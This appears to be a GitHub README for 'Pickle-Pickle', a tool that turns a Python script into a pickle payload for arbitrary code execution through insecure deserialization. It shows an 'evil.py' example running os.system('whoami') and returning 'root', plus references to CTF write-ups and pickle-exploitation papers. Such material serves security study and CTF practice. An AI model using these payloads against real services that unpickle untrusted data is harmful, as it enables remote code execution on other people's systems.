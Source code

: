 ## Pickle-Pickle
```
A arbitrary python code executer via python pickle
```

#### Usage
```python
# cat evil.py
#!/usr/bin/env python
# encoding:utf-8

class Exploit():
    def __init__(self, command):
        self.command = command
    
    def run(self):
        import os
        return os.system(self.command)

print(Exploit("whoami").run())

# python pickle-pickle.py
Usage:
        python ./pickle-pickle.py [FILENAME]

# python pickle-pickle.py evil.py
root
```

#### Reference
* Source Code
    * https://github.com/python/cpython/blob/master/Lib/pickle.py
* Documents
    * https://www.python.org/dev/peps/pep-0307/
    * https://www.python.org/dev/peps/pep-3154/
    * https://docs.python.org/2/library/pickle.html#pickle-protocol
    * https://docs.python.org/2/library/pickle.html
    * https://docs.python.org/3/library/pickle.html
* CTF WriteUP
    * https://www.cnblogs.com/heycomputer/articles/10613850.html
    * https://www.jianshu.com/p/8fd3de5b4843
    * https://github.com/bl4de/ctf/blob/master/2016/HackIM_2016/Unicle_Web200/Unicle_Web200_writeup.md
    * https://github.com/ctfs/write-ups-2015/tree/master/camp-ctf-2015/pwn/spam-100
* Articles
    * https://checkoway.net/musings/pickle/
    * https://www.leavesongs.com/PENETRATION/code-breaking-2018-python-sandbox.html
    * https://www.leavesongs.com/PENETRATION/python-string-format-vulnerability.html
    * https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html
    * https://zhuanlan.zhihu.com/p/25981037
    * http://www.bendawang.site/2018/04/18/Python%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E7%9A%84%E8%8A%B1%E5%BC%8F%E5%88%A9%E7%94%A8/
    * http://intx0x80.blogspot.com/2017/05/python-input-vulnerability_25.html
* Papers
    * http://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_WP.pdf
* Tools
    * https://gist.github.com/freddyb/3360650
    * https://github.com/sensepost/anapickle
